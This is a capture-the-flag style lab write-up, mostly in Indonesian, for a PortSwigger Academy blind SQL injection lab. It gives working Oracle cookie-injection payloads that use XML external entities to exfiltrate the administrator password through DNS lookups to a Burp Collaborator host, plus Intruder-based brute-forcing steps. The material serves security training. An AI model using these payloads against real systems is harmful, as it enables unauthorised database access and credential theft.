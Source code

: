 
# Blind SQL injection with out-of-band data exfiltration

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

Learning path: If you're following our learning path, please note that the suggested solution for this lab requires some understanding of topics that we haven't covered yet. Don't worry if you get stuck; try coming back later once you've developed your knowledge further.

Note: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.


---------------------------------------------

References: 

- https://portswigger.net/web-security/sql-injection/blind

- https://portswigger.net/web-security/sql-injection/cheat-sheet

---------------------------------------------

# **Detail Query dan Penjelasan Eksploitasi Blind SQL Injection dengan Out-of-Band Data Exfiltration**

### **Payload Utama**
Payload awal untuk memicu interaksi Out-of-Band (OOB) dengan server Burp Collaborator adalah sebagai berikut:

```plaintext
Cookie: TrackingId=FFyToxqSs49lpxuC'+union+select+EXTRACTVALUE(xmltype('<%3fxml+version="1.0"+encoding="UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http://rfawfotutbq6iasl1guon5zd84ev2uqj.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--;
```

Payload ini memanfaatkan fungsi Oracle **`EXTRACTVALUE`** untuk memproses dokumen XML yang dirancang agar server melakukan DNS lookup ke domain Burp Collaborator.

---

### **Langkah Eksploitasi dengan Data Retrieval**
Untuk melakukan eksploitasi yang lebih kompleks, seperti mengambil data sensitif (misalnya, password), kita bisa menggunakan query seperti ini:

```sql
SELECT CASE WHEN ((SUBSTR((SELECT password FROM users WHERE username = 'administrator'),1,1))='a') 
THEN 'a'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual) 
ELSE NULL END 
FROM dual
```

Payload ini akan memproses langkah berikut:
1. **`SUBSTR((SELECT password FROM users WHERE username = 'administrator'),1,1)`**:
   - Mengekstrak karakter pertama dari kolom `password` untuk user `administrator`.
2. **`CASE WHEN ... THEN ... ELSE NULL`**:
   - Jika karakter pertama adalah `'a'`, server akan mencoba mengakses URL Burp Collaborator.
   - Jika tidak, tidak ada interaksi yang terjadi.
3. **`EXTRACTVALUE`**:
   - Memproses dokumen XML dengan deklarasi entitas eksternal untuk memicu DNS lookup.

**Payload yang diterapkan ke cookie**:

```plaintext
FFyToxqSs49lpxuC'+union+SELECT+CASE+WHEN+((SUBSTR((SELECT+password+FROM+users+WHERE+username+=+'administrator'),1,1))!='a')+THEN+'a'||(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"?><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http://BURP-COLLABORATOR/">+%25remote%3b]>'),'/l')+FROM+dual)+ELSE+NULL+END+FROM+dual--;
```

---

### **Hasil Pengujian**
1. **Menggunakan Payload Pertama**:
   - Tes dilakukan untuk memvalidasi apakah karakter pertama dari password bukan `'a'`.
   - Interaksi dengan domain Burp Collaborator berhasil terjadi:

   ![img](images/Blind%20SQL%20injection%20with%20out-of-band%20data%20exfiltration/1.png)

   ![img](images/Blind%20SQL%20injection%20with%20out-of-band%20data%20exfiltration/2.png)

2. **Menggunakan Intruder**:
   - Payload dikirim ke **Burp Intruder**.
   - Posisi pertama diatur untuk karakter password, dan posisi kedua untuk subdomain Burp Collaborator.
   - Mode **Battering Ram** digunakan untuk mencoba berbagai karakter secara otomatis:

   ![img](images/Blind%20SQL%20injection%20with%20out-of-band%20data%20exfiltration/3.png)

3. **Hasil Akhir**:
   - Ditemukan bahwa karakter password adalah `'e'`:

   ![img](images/Blind%20SQL%20injection%20with%20out-of-band%20data%20exfiltration/4.png)

4. **Iterasi untuk Seluruh Password**:
   - Dengan mencoba setiap karakter secara berurutan, password lengkap berhasil dieksfiltrasi: `e6jomps7kptnx04vcvtz`.

---

### **Payload Alternatif untuk Data Retrieval**
Payload ini menggunakan fitur Oracle untuk mengekstraksi data lebih lanjut:

```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

Implementasi untuk mengambil seluruh password:

```plaintext
mnsyvP6Ci68a0edP'+union+select+EXTRACTVALUE(xmltype('<%3fxml+version="1.0"+encoding="UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http://'||(SELECT+password+FROM+users+where+username='administrator')||'.0mntiwqdq98x96mi2d97hujkwb22quej.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```

---

### **Validasi Hasil**
Ketika payload berhasil dieksekusi, server melakukan DNS lookup ke Burp Collaborator, membuktikan bahwa data telah dieksfiltrasi:

![img](images/Blind%20SQL%20injection%20with%20out-of-band%20data%20exfiltration/5.png)

---

### **Kesimpulan**
Payload ini memungkinkan eksploitasi Blind SQL Injection dengan teknik Out-of-Band untuk mengambil data sensitif dari server, memanfaatkan mekanisme DNS lookup untuk memvalidasi eksekusi query dan mengirimkan data.
